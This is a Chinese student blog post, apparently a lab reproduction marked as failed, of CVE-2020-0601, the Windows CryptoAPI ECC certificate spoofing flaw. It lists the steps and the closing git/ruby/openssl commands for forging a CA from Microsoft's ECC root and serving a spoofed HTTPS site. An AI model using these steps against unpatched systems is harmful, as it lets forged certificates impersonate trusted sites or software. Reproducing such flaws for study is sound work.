







# CVE-2020-0601：微软核心加密库漏洞复现（失败） - 20181234 - 博客园

> 原文：[`www.cnblogs.com/ZYX-bk-412/p/14730555.html`](https://www.cnblogs.com/ZYX-bk-412/p/14730555.html)

# CVE-2020-0601：微软核心加密库漏洞复现

# 一、漏洞介绍

受 CVE2020-0601 漏洞影响的系统，在验证证书签名时，在证书信用列表中查找受信任 CA 证书时出现乌龙。伪造的 ECC CA 证书可以被误认为可信任的证书，导致该伪造证书签名的文件能被系统信任。

比如，win10 中证书 MicrosoftECCProductRootCertificateAuthority.pem 是在受信任的证书列表中。现在我们根据漏洞，利用算法公式制造出与该证书具有相同公钥和曲线参数的，除基点 G 不同的另外一个证书 spoofed.pem。操作系统在验证签名时会将 spoofed.pem 证书认为是信任列表中的 MicrosoftECCProductRootCertificateAuthority.pem 证书，那么 spoofed.pem 签署的文件，系统自然就信任。

# 二、影响版本

目前，支持使用带有指定参数的 ECC 密钥的证书的 Microsoft Windows 版本会受到影响，包括了 Windows 10、Windows Server 2016/2019 以及依赖于 Windows CryptoAPI 的应用程序。

# 三、复现过程

## 1）在 win10 开始菜单中输入 certmgr.msc，并打开



## 2）导出一个根证书 MicrosoftECCProductRootCertificateAuthority 


选择 Base64 编码

 



## 3）下载 poc 程序


##  4）执行 poc 程序。该程序从导出的 ECC 证书中获取公钥值，然后生成私钥是 1，G 就是该公钥值的私钥文件


## 5）对比一下证书和生成私钥文件内容能更好理解

ECC 证书中的公钥信息：

 

生成的私钥文件：


 私钥值是 1，对应的公钥值，G 值和 ECC 证书中的公钥值是一样的。

## 6）利用生成的私钥文件生成一个自签名 CA 证书，然后签发一个下级服务证书



下级证书的私钥


## 7）把生成的下级证书 cert.crt，其私钥文件 cert.key 和我们的 ca 文件 spoofed_ca.crt 一起放到 HTTP 服务器上，配置启用 SSL

## 8）在客户机 Win10 下的 hosts 文件里添加配置，将自己服务器地址和域名配对。



 

设置 PHP studyssl 配置文件

## 9）最终使用微软浏览器或者 IE 浏览器访问此地址

# 四、修复方式

微软已发布补丁，更新即可

# 五、需要使用的命令行

```
git clone https://github.com/ollypwn/CVE-2020-0601.git
ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
openssl x509 -in MicrosoftECCProductRootCertificateAuthority.cer -noout -text
openssl ec -in spoofed_ca.key -noout -text   
openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt     
openssl ecparam -name secp384r1 -genkey -noout -out cert.key
openssl req -new -key cert.key -out cert.csr                                                                 
openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000
```